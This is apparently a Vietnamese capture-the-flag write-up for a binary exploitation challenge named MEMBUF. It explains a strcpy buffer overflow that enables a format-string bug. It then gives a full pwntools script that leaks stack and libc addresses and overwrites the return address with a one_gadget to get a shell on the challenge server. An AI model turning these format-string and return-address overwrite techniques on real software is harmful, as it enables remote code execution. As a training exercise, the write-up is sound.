




# MEMBUF



Ta hãy cùng phân tích chương trình trong ida:



Bài cho ta 3 option:

- `1`: Đọc `199` char vào `s`
- `2`: `strcpy` từ `s` vào `v7`
- `3`: lựa chọn format để in ra `v7` 

## Exploid

- Do chương trình sử dụng `strcpy` mà kích thước của `v7` nhỏ hơn kích thước `s` -> ở đây ta có một lỗi `Buffer Over Flow` 

- Để ý kích thước `v7`,`v8` đều rất nhỏ so với `s` đồng thời khi ta chương trình bảo ta chọn 1 trong 2 format nhưng nếu ta chọn số khác thì chương trình sẽ không thay đổi giá trị trong biến `v8` => ta có thể ghi đè lên để thay đổi giá trị biến `v8` để thực hiện lỗi `Format String` . 

Vì chương trình cũng cho thêm file libc nên mình nghĩ đến sử dụng `one_gadget`:




Dừng lại ở ret thì ta thấy `rax = NULL`, còn chưa chắc chắn chắc chắn `[rbp-0x70]` và `[rbp-0x48]` = `NULL`

Vậy nên hướng của mình sẽ là :

- Leak `$rbp` để tính toán địa chỉ trên stack sao cho `[rbp-0x70]` và `[rbp-0x48]` = `NULL`

- Leak `libc address` để tính toán ra được địa chỉ của `one_gadget`

- Thay đổi giá trị tại địa chỉ `$rbp` và `ret_addr`  


## Solve script

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('./chall_patched', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*main+354
        b*main+302
        b*main+607
        b*main+645
        c
        ''')
        sleep(1)


if args.REMOTE:
    p = remote('67.223.119.69',5003)
else:
    p = process([exe.path])
#GDB()

sla(">",b'1')
payload = b'a'*50
payload += b'%44$p\n%45$p'             ####### Use fmt to leak
sla("read",payload)

sla(">",b'2')

sla(">",b'3')

sla("format ?",b'3')

p.recvuntil(b'printing ... \n')


leak_rbp = int(p.recvline()[:-1],16)
leak_libc = int(p.recvline()[:-1],16)


info(hex(leak_rbp))
info(hex(leak_libc))
rbp_new = leak_rbp + 0x708
libc_base =  leak_libc - 0x2a1ca
execve = libc_base + 0xef52b
info("libc base: "+hex(libc_base))

offset_rbp = leak_rbp - 160 #2 offset last
offset_ret = leak_rbp - 152


byte_rbp = rbp_new &0xffff
byte_libc1 = execve &0xff
byte_libc2 = (execve>>8) &0xffff

dict = {
    byte_rbp:offset_rbp,
    byte_libc1:offset_ret,
    byte_libc2:(offset_ret+1)
}
order = sorted(dict)
## change 1:

payload = b'c'*50
payload += f'%{order[0]}c%18$hhn%{order[1]-order[0]}c%19$hn'.encode()
payload = payload.ljust(80,b'\0')
payload += p64(dict[order[0]])
payload += p64(dict[order[1]])
payload += p64(dict[order[2]])


#write 1 byte libc
#write 2 byte rbp 
#write 2 byte libc +1 

sla(">",b'1')
sa("read",payload)
sla(">",b'2')
sla(">",b'3')
sla(">",b'3')


payload = b'd'*50
payload += f'%{order[2]}c%20$hn'.encode()
payload = payload.ljust(80,b'\0')
payload += p64(dict[order[0]])
payload += p64(dict[order[1]])
payload += p64(dict[order[2]])

sla(">",b'1')
sa("read",payload)
sla(">",b'2')
sla(">",b'3')
sla(">",b'3')

sla(">",b'4')
p.interactive()

```

- Vì sao lại chia ra write 2 lần để thay đổi địa chỉ `one_gadget`: Do chúng ta cần change 3 byte, nhưng nếu write 1 lần ta phải dùng `%n` - tức là 4 byte => Khi đó `%c` sẽ đếm số rất lớn và phải chờ lâu => Mình tách ra viết 2 lần để tối ưu hơn.

Kết nối với sever và ta lấy đc flag 😊



**FLAG**: `KCSC{a9755dfd232fcc1fd2155885fc2e5006}`